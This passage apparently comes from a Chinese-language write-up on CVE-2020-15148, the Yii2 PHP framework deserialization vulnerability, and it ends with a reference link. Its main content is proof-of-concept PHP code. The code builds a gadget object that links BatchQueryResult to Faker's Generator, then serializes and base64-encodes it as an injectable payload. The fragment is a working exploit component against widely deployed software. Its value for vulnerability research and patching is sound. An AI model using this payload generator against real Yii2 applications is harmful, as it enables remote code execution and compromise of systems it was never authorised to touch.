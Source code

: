     namespace yii\db{
        use Faker\Generator;

        class BatchQueryResult{
            private $_dataReader;

            public function __construct(){
                $this->_dataReader = new Generator;
            }
        }
    }
    namespace{
        echo base64_encode(serialize(new yii\db\BatchQueryResult));
    }
    ?>

![8.jpg](resource/(CVE-2020-15148)Yii2框架反序列化漏洞/media/rId35.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8307
